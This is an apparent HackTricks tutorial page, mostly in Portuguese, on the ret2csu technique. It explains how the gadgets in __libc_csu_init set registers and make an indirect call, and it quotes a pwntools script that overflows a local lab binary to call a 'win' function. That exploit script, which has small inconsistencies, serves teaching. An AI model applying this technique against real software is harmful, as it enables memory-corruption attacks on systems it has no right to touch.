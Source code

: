 # Ret2csu

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**ret2csu** é uma técnica de hacking usada quando você está tentando assumir o controle de um programa, mas não consegue encontrar os **gadgets** que normalmente usa para manipular o comportamento do programa.&#x20;

Quando um programa usa certas bibliotecas (como libc), ele possui algumas funções embutidas para gerenciar como diferentes partes do programa se comunicam entre si. Entre essas funções, existem algumas joias ocultas que podem agir como nossos gadgets ausentes, especialmente uma chamada `__libc_csu_init`.

### The Magic Gadgets in \_\_libc\_csu\_init

Em `__libc_csu_init`, há duas sequências de instruções (nossos "gadgets mágicos") que se destacam:

1. A primeira sequência nos permite configurar valores em vários registradores (rbx, rbp, r12, r13, r14, r15). Esses são como slots onde podemos armazenar números ou endereços que queremos usar mais tarde.
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
Este gadget nos permite controlar esses registradores ao retirar valores da pilha para eles.

2. A segunda sequência usa os valores que configuramos para fazer algumas coisas:
* **Mover valores específicos para outros registradores**, tornando-os prontos para usarmos como parâmetros em funções.
* **Executar uma chamada para um local** determinado pela soma dos valores em r15 e rbx, e então multiplicando rbx por 8.
```
mov rdx, r14;
mov rsi, r13;
mov edi, r12d;
call qword [r15 + rbx*8];
```
## Exemplo

Imagine que você quer fazer uma syscall ou chamar uma função como `write()`, mas precisa de valores específicos nos registradores `rdx` e `rsi` como parâmetros. Normalmente, você procuraria gadgets que configurassem esses registradores diretamente, mas não consegue encontrar nenhum.

É aqui que **ret2csu** entra em cena:

1. **Configurar os Registradores**: Use o primeiro gadget mágico para retirar valores da pilha e colocá-los em rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx) e r15.
2. **Usar o Segundo Gadget**: Com esses registradores configurados, você usa o segundo gadget. Isso permite que você mova seus valores escolhidos para `rdx` e `rsi` (de r14 e r13, respectivamente), preparando os parâmetros para uma chamada de função. Além disso, ao controlar `r15` e `rbx`, você pode fazer o programa chamar uma função localizada no endereço que você calcula e coloca em `[r15 + rbx*8]`.

Você tem um [**exemplo usando essa técnica e explicando aqui**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation), e este é o exploit final que usou:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
Note que o exploit anterior não é destinado a fazer um **`RCE`**, ele é apenas para chamar uma função chamada `win` (pegando o endereço de `win` da entrada padrão chamando gets na cadeia ROP e armazenando-o em r15) com um terceiro argumento com o valor `0xdeadbeefcafed00d`.
{% endhint %}

### Por Que Não Usar a libc Diretamente?

Geralmente, esses casos também são vulneráveis a [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/), mas às vezes você precisa controlar mais parâmetros do que os que podem ser facilmente controlados com os gadgets que você encontra diretamente na libc. Por exemplo, a função `write()` requer três parâmetros, e **encontrar gadgets para definir todos esses diretamente pode não ser possível**.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
